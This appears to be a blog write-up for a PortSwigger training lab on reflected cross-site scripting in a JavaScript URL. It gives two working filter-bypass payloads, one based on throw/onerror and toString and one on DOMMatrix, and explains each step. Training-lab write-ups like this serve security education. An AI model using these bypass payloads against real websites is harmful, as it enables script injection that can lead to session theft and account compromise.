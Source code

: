 ```yaml
---
title: "Expert Lab: Reflected XSS in a JavaScript URL with some characters blocked"
published: true
tags: [Web Application Security, Web Security Academy, Expert Labs, Cross-Site Scripting, XSS, Javascript]
image: /blog/assets/hacker.png
description: "Solution for the Expert Lab, Lab Description: This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks."
---
```


<br>
![](/blog/assets/hacker.png)
<br>
[^1]
<br>
### Lab Link
[Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

<br>
### Lab Description
* * *
<br>
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

<br>
### Solutions
* * *
<br>
### Solution 1:
Visit the following URL, replacing your-lab-id with your lab ID:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.

The payload here, URL decoded is:

```js
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.

As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

<br>
Here are some explanations about the Javascript code used above[^2]:

First of all, the code is using the comma operator. What the comma operator does is allow you to evaluate multiple expressions. In particular in this case, you have three:

```js
   x=x=>{throw onerror=alert,1337},toString=x,window+''
// ^_____________________________^ ^________^ ^_______^
//                 1                     2         3
```

Let's examine them one by one:

<br>
#### Brief Note about Implicit Globals
This is going to be relevant for most of the below sections, so I want to clear it up first. Any time you assign to any name you haven't declared with `var`, `let`, or `const` it implicitly assigns to a property on the global object. In the browser, the global object is `window`, so any implicit globals go there.

<br>
#### An Arrow Function
```js
x=x=>{onerror=alert; throw 1337}
```

##### Definition
This will create a new arrow function and assign it to `x`. Since there is no variable declaration, `x` will be an implicit global and thus attached to `window`. This isn't extremely useful, it's likely done to save a few characters. The function also takes a single parameter called `x` but does nothing with it. Again, nothing useful, saves up a single character, otherwise it needs to be defined as `()=>`.

<br>
#### Overriding `toString`
```js
toString=x
```

This part will override the `toString` method on `window` and change it to the `x` function. Thus any time you explicitly or implicitly convert `window` to a string, it will instead execute `x`.

```js
x = x => {
  onerror = alert;
  throw 1337
}

toString = x;

window.toString();
```

<br>
#### Converting `window` to String
In JavaScript, when you try to concatenate any value with a string, the value will be implicitly also be converted to a string. This is usually done by calling the `toString()` method.

The same thing happens in the last part of the code:

```js
window+''
```

This will:

1. trigger conversion to a string, which
2. calls the `toString` method on `window`, which
3. was overridden with `x` using `toString=x`, which
4. calls the `x` function instead, which
5. sets the global error handler to just be `alert` (`onerror=alert`) and immediately throws an error (throw `1337`), which
6. invokes the global error handler

<br>
#### Why omitting `window+''` doesn't Throw an Error
Hopefully clear from the above, but to address it directly, that code is needed to set off the whole chain of reactions defined before it.
Here is the full code with explanation and formatting for clarity:

```js
//create a function
window.x = x => {
  onerror = alert; //changes the global error handler
  throw 1337       //throws an error to trigger the error handler
};

//overwrite the `toString` method of `window` so it always throws an error
window.toString = window.x;

//implicitly call `window.toString()` by performing a string concatenation
window + '';
```

<br>
### Solution 2:
Another interesting solution is to use _JavaScript without parentheses using DOMMatrix_ which is explained in detail by Gareth Heyes in a great post[^3]. To solve this lab with DOMMatrix payload, use:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=z=%3E{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'%2b':'%2bx},toString=x,window%2b%27%27,{x:%27
```

The payload in this code, URL decoded is:

```js
&'},x=z=>{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x},toString=x,window+'',{x:'
```

As explained in Solution 1: `/**/` is used to bypass space restriction, also click "Back to blog" link to pop alert message box and solve the lab.


<br>
### _External Links_
* * *
* #### [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
* #### [Cross-site scripting (XSS) cheat sheet: Restricted characters](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#restricted-characters)

<br>
### _References_
* * *
[^1]: Icon made by [Flat Icons](https://www.flaticon.com/authors/flat-icons) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Javascript window object, window+'', what does this code do](https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do)
[^3]: [JavaScript without parentheses using DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix), also see: [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
